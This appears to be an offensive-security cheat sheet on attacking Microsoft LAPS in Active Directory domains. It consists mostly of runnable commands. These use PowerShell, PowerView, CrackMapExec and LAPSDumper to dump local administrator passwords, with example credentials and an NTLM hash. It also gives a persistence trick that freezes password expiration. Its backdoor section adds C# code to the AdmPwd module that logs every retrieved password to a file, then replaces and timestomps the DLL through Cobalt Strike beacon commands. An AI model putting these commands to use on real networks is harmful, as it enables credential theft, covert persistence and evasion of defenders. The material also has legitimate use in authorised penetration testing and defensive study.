 ```yaml
---
description: Local Administrator Password Solution
---
```


# LAPS

* [https://adsecurity.org/?p=1790](https://adsecurity.org/?p=1790)




## Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```




## Get Passwords



### PowerShell


#### ActiveDirectory

Query LDAP for AD computer objects with their passwords and its expiration date:

```
PS > $laps = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime -Server DC01 | ? {$_.'ms-Mcs-AdmPwd'} | select Name,ms-Mcs-AdmPwd,@{label="ExpDate";Expression={([datetime]::FromFileTime([convert]::ToInt64($_.'ms-Mcs-AdmPwdExpirationTime')))}}
PS > $laps | select -First 10
```

Check the name of enabled local administrators on a remote machine:

```
PS > Get-CimInstance -ComputerName SRV01 -ClassName Win32_Group -Filter "Name='Administrators'" | Get-CimAssociatedInstance -Association Win32_GroupUser | ? {$_.Disabled -eq $false} | fl
```

Change LAPS password (just zero the expiration time attribute):

```
PS > Get-ADComputer PC01 -Properties ms-MCS-AdmPwdExpirationTime| % {Set-ADComputer -Identity $_ -Replace @{"ms-MCS-AdmPwdExpirationTime" = "0"}}
```


#### Get-LAPSPasswords

* [https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/](https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/)
* [https://github.com/kfosaaen/Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)

```
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > Get-LAPSPasswords -DomainController 10.10.13.37 -Credential $cred | fl
```


#### LAPSToolkit

* [https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)
* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

Enumerate LAPS groups and permissions:

```
PS > $lapsGroups = Find-LAPSDelegatedGroups
PS > $lapsRights = Find-AdmPwdExtendedRights
```

Get passwords:

```
PS > Get-LAPSComputers
```



### CrackMapExec

* [https://github.com/T3KX/Crackmapexec-LAPS](https://github.com/T3KX/Crackmapexec-LAPS)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py)

```
$ cme ldap <DC_IP> -u snovvcrash -p 'Passw0rd!' -M laps
```



### LAPSDumper

* [https://github.com/n00py/LAPSDumper](https://github.com/n00py/LAPSDumper)

```
$ python laps.py -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python laps.py -d megacorp.local -l DC01.megacorp.local -u snovvcrash -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```




## Persistence

Increase the expiration time of a compromised computer object's `ms-mcs-admpwdexpirationtime` property value:

```
PV3 > Get-DomainObject -Identity SRV01 -Properties ms-mcs-admpwdexpirationtime
PV3 > Set-DomainObject -Identity SRV01 -Set @{"ms-mcs-admpwdexpirationtime"="<EPOCH>"}
```




## Backdoor

Recompile [admpwd](https://github.com/GreyCorbel/admpwd) having added some evil code [here](https://github.com/GreyCorbel/admpwd/blob/1461172b2002ce37e31c221f6532a8ce7de1a295/Main/AdmPwd.PS/Main.cs#L140):

```csharp
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
WriteObject(pi);
```

Replace the original `AdmPwd.PS.dll` assembly with a newly generated one and fix the timestamp:

```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
beacon> upload AdmPwd.PS.dll
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
```
